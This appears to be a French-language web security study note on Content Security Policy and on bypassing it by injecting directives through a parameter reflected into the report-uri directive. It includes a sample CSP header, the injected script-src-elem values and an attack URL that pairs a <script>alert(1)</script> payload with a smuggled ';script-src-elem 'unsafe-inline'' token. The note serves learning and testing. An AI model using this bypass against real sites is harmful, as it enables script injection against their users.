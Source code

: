CSP est un mécanisme de sécurité pour navigateur visant à atténuer les attaques XSS et autres. Il fonctionne en limitant les ressources (telles que les scripts et les images) qu'une page peut charger et en limitant la possibilité pour une page d'être encadrée par d'autres pages.

Pour activer CSP, une réponse doit inclure un en-tête de réponse HTTP appelé `Content-Security-Policy`avec une valeur contenant la politique. La politique elle-même est composée d'une ou plusieurs directives, séparées par des points-virgules.

## Bypassing CSP with policy injection

Si un site reflète un paramètre dans la directive `report-uri` de sa politique CSP, un attaquant peut manipuler ce paramètre pour **injecter** ses propres directives CSP.

```js
// example
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

**Méthode :**

1. L'attaquant contrôle un paramètre (ex : `?token=...`).
2. Il injecte un point-virgule (`;`) pour ajouter ses propres directives après celles déjà existantes.
3. Le `report-uri` est souvent la dernière directive, donc l'attaquant peut écraser les directives existantes

**Exploitation de la vulnérabilité :**

- Normalement, on ne peut pas écraser `script-src`, mais **Chrome a introduit `script-src-elem`**, qui permet de contrôler les **éléments `<script>`** (et non les événements).
    
- Cela permet à un attaquant de **contourner** la politique CSP, en injectant des scripts malveillants via des éléments `<script>`.

**Exploitation**

```js
script-src-elem *
script-src-elem 'unsafe-eval'
script-src-elem 'unsafe-inline'
```

```http
https://target.com/?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
```

> En gros, l'attaque consiste à manipuler `report-uri` pour **ajouter des directives CSP malveillantes** (comme autoriser des sources de scripts non sécurisées).


